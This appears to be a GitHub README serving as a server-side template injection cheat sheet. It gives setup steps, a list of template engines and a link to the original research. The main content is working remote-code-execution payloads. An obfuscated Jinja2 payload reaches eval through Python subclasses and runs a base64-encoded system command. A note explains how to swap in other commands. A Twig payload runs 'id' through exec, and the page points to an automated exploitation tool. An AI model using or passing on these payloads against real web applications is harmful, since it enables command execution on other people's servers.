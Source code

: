 # Requirements

* apt-get install python
* apt-get install python-pip
* pip install flask
* pip install jinja2

# Original Blog:
https://portswigger.net/research/server-side-template-injection

# Web Template Engines

1- FreeMarker
	Java-based template engine
2- Velocity
	Java-based template engine
3- Smarty
	PHP Template engine
4- Twig
	PHP Template engine
5- Jade 
	Node.js Template engine
6- Jinja2
	Python/Flask Template engine

# Basic Payload

{{7*7}}
{{7*'7'}}

# RCE PAYLOAD - JINJA2
`{{5096754695}}{{''}}{%+set+d+=+"eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnZFc1aGJXVWdMV0U9JykuZGVjb2RlKCkpLnJlYWQoKQ=='))"+%}{%+for+c+in+[].__class__.__base__.__subclasses__()+%}+{%+if+c.__name__+==+'catch_warnings'+%}
{%+for+b+in+c.__init__.__globals__.values()+%}+{%+if+b.__class__+==+{}.__class__+%}
{%+if+'eval'+in+b.keys()+%}
{{+b['eval'](d)+}}
{%+endif+%}+{%+endif+%}+{%+endfor+%}
{%+endif+%}+{%+endfor+%}{{''}}{{9776394213}}`

Note: Decode decode base64 string to to place system commands

# RCE PAYLOAD - TWIG
`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`

# Automation tool for SSTI exploitation:
TPLMap
